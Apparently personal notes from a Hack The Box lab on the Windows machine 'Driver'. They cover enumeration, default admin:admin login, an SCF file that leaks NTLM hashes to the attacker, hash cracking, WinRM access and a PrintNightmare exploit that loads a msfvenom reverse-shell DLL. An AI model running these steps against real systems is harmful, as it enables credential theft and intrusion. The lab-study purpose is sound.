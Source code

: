 Box info:
Windows
IP 10.10.11.106

**Enumeration:: **
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 18h51m14s, deviation: 0s, median: 18h51m13s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-07T01:30:02
|_  start_date: 2022-01-07T01:14:57

**dir::**
    + index.php, /images/, /fw_up.php(upload section)
        :requesting UN:PW "MFP firmware Update Center: enter PW for admin"
            + ::UN&PW admin:admin
            + download index.png
                + steghide:: doesnt work on .png
    + fw_up.php
        HTB DesignJet, Ecotank, Laserjet Pro, Mono
            + able to upload on any printer.
            + "GET /fw_up.php?msg=SUCCESS HTTP/1.1"
            + ***Where is upload location?***

**nikto::** 
    + php/7.3.25 
    + Server: Microsoft-IIS/10.0
    + default creds : admin:admin

smb is vuln to scf scripts:: see scf_file_attacks
+ msf6> use auxiliary/server/capture/smb
+ upload @test.scf script::
```
[Shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
+ capture hashes and run hashcat:: SEE:: ![weak_msf_ntlm2_hash](Screenshots/Driver_smb_scf_upload.png)
  + msf6 auxiliary(server/capture/smb) > [*] SMB Captured - 2022-01-06 07:29:15 -0500                               
    NTLMv2 Response Captured from 10.10.11.106:49450 - 10.10.11.106
    USER:tony DOMAIN:DRIVER OS: LM:
    LMHASH:Disabled
    LM_CLIENT_CHALLENGE:Disabled
    NTHASH:ad9b22a109fc9748b005176a30a7f24b
    NT_CLIENT_CHALLENGE:0101000000000000acc1da0d9703d801a0d96d845d3f38d300000000020000000000000000000000

**responder works much better than msfconsole::**  see::![proper_ntlmv2_hash](Screenshots/driver_scf_smb.png)

+ john --format=nt hash.txt
  + hashcat -m 5600 ntlmhashes.txt /usr/share/wordlists/rockyou.txt (seclist:: milw0rmdictionary.txt >> rockyou.txt )
    + creds: tony:liltony

+ rpcdump.py 10.10.11.106 -p 135 :: provides multiple vuln services in hacktricks                                                      1 ⨯

+ msfconsole> use auxiliary/scanner/winrm/winrm_cmd see [winRM_cmd](Screenshots/driver_winrm_cmd.png))
  + set cmd pwd :: C:\Users\tony\Documents
  + set cmd "cd ..\Desktop\ ; more user.txt" ![pwd_enum](Screenshots/driver_pwd_enum.png)
  + user:: 95d6e576b403ac91befbc9c0ab70463d

##**CVE-2021-1675**##
create payload:: 
+ `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.13 LPORT=53 -f dll > revshell.dll #move to /opt/tranfers`
stage smbserver:: see ![](Screenshots/driver_smb_serve.png)
+ `python3 /opt/impacket/examples/smbserver.py kali . # user kali @ current director (/opt/transfers)`
setup listener::
+ `nc -lvnp 53`
Run exploit:: see ![](Screenshots/driver_run_explt.png)
+ `python3 ./CVE-2021-1675.py driver.htb/tony:liltony@10.10.11.106 '\\10.10.16.13\kali\revshell.dll'`


more c:\Users\Administrator\Desktop\root.txt
root:: 1026cd01def52e83a800703612fe0ef2


+TODO: impacket.dcerpc.v5.rprn.DCERPCSessionError: RPRN SessionError: code: 0x3a - ERROR_BAD_NET_RESP - The specified server cannot perform the requested operation.
Can't run printernightmare CVE-2021-1675
CVE-2021-1675 not working - see ![hmmmm](Screenshots/CVE20211675_no_workie.png)
    + https://github.com/cube0x0/CVE-2021-1675




[CVE](https://github.com/cube0x0/CVE-2021-1675)
[msrpc](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)
[scf_file_attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
[cracking_windows_hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)